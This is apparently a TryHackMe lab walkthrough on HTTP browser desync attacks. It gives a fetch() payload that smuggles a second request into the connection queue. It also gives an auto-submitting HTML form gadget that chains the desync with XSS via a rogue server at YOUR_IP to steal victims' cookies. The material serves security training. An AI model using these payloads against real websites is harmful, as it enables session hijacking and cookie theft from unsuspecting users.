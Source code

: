 You can hack your session by using the following payload from your browser command line.  
  

```python
fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

1. `http://MACHINE_IP:5000/`  
    This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.
2. `{ method: 'POST' }`The `method` parameter specifies the HTTP method for the request. Here, it's set to 'POST'.
3. `{ body: 'GET /redirect HTTP/1.1\r\nFoo: x' }   `In the body, there is the second request that is going to be injected into the queue.
4. `{ mode: 'cors' }`This flag triggers an error when visiting the 404 web page and avoids following the redirect.

First, let’s start the Virtual Machine by pressing the Start Machine button at the top of this task. The vulnerable website will be running at the port 5000.   

Furthermore, this implies that an attacker can obtain complete control over a victim's browser when the specified payload is executed from the victim.

The following screenshots will show an example of the attack using the previous payload.

 ![Browser Desync Attack Vulnerable Redirect](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/d7b193c819734e10a561827cffcfd406.png)



The desync attack involves injecting an arbitrary request into the request HTTP queue. Upon refreshing the page, it redirects to the /redirect endpoint, leading to a 404 error page display since that route is not present.   
  

![Browser Desync Attack Connection Poisoned](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/6cab09b50ae05a0cb793992a74c82307.png)


# HTTP Browser Desync exploit chaining XSS
---

Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.  
Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.   

We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
